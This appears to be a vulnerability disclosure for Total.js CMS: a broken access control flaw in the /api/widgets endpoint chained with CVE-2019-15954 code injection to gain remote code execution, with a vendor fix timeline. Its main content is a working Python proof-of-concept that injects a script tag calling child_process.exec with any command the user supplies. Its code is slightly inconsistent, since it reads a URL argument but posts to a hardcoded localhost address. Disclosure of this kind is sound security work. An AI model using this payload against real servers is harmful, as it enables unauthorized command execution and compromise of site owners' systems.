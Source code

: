 # Broken Access Control TO RCE

---

> Any user (including  unauthorized users) can call `/api/widgets/`, This leads to rce

**Code Analysis**

> cmsbundle\.src\controllers\admin.js

- `/api/widgets` be allow call any user

![image-20200218142151636](assets/image-20200218142151636.png)

![image-20200218142218530](assets/image-20200218142218530.png)

- Users aren't grant privileges , also using api :

![image-20200218145341292](assets/image-20200218145341292.png)

- Combine ``CVE-2019-15954 (Code Injection)`` -> **RCE unauthorize** 

---

PoC

- (Needing user in website)

```python
import requests
import sys

session = requests.Session()

def request(cookie,cmd):
    headers = {"Content-Type":"application/json; charset=utf-8"}
    cookies = {"__admin":cookie}
    payload = "\"<script total>global.process.mainModule.require(\'child_process\').exec('%s');</script>\"" %(cmd)
    rawBody = '{"name":"meomeo","body":%s,"category":"Inline"}' %(payload)
    response = session.post("http://localhost:8000/admin/api/widgets/", data=rawBody,headers=headers ,cookies=cookies ,)
    if "true" in response.text:
        print("RCE!")
    else:
        print(response.text)


if __name__ == "__main__":
    if len(sys.argv) < 4:
        print("Help: python PoC.py + cookie + cmd")
        sys.exit()
    else:
        url = sys.argv[1]
        cookie = sys.argv[2]
        cmd = sys.argv[3]
        request(cookie,cmd)
```

**demo:**

![image-20200218144738205](assets/image-20200218144738205.png)

<u>**vendor confirm:**</u> https://github.com/totaljs/cms/commit/2a26c4c6a61d3fda4527a761716ef7e1c5f7c970

![image-20200219205614764](assets/image-20200219205614764.png)

---

# TIMELINE:

- **18/2/2020** : Report for vendor
- **19/2/2020** : Vendor confirn and fix